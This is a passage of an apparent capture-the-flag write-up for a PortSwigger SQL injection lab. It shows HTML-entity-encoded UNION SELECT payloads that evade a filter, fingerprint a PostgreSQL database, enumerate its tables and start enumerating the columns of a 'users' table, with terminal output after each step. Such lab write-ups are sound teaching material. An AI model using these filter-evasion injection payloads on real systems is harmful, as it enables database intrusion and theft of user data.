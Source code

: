 **Now, we need to know that column is accepting a string data type or not:**
```py
# UNION SELECT 'string'
payload = '&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#39;&#115;&#116;&#114;&#105;&#110;&#103;&#39;'
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-18]
└─# python3 exploit.py
381 units
string
```

It accepts string data type!

**Next, we can find out what DBMS(Database Management System) is using:**
```py
# UNION SELECT version()
payload = '&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#118;&#101;&#114;&#115;&#105;&#111;&#110;&#40;&#41;'
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-18]
└─# python3 exploit.py
381 units
PostgreSQL 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit
```

- DBMS information: PostgreSQL version 12.12

**Then, we can list all the tables in the current database:**
```py
# UNION SELECT table_name FROM information_schema.tables
payload = '&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#116;&#97;&#98;&#108;&#101;&#95;&#110;&#97;&#109;&#101;&#32;&#70;&#82;&#79;&#77;&#32;&#105;&#110;&#102;&#111;&#114;&#109;&#97;&#116;&#105;&#111;&#110;&#95;&#115;&#99;&#104;&#101;&#109;&#97;&#46;&#116;&#97;&#98;&#108;&#101;&#115;'
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-18]
└─# python3 exploit.py | grep 'users'                                            
users
```

- Found table: `users`

**After that, we can list all columns in that table:**
```py
# UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'
payload = '&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#99;&#111;&#108;&#117;&#109;&#110;&#95;&#110;&#97;&#109;&#101;&#32;&#70;&#82;&#79;&#77;&#32;&#105;&#110;&#102;&#111;&#114;&#109;&#97;&#116;&#105;&#111;&#110;&#95;&#115;&#99;&#104;&#101;&#109;&#97;&#46;&#99;&#111;&#108;&#117;&#109;&#110;&#115;&#32;&#87;&#72;&#69;&#82;&#69;&#32;&#116;&#97;&#98;&#108;&#101;&#95;&#110;&#97;&#109;&#101;&#61;&#39;&#117;&#115;&#101;&#114;&#115;&#39;'
```
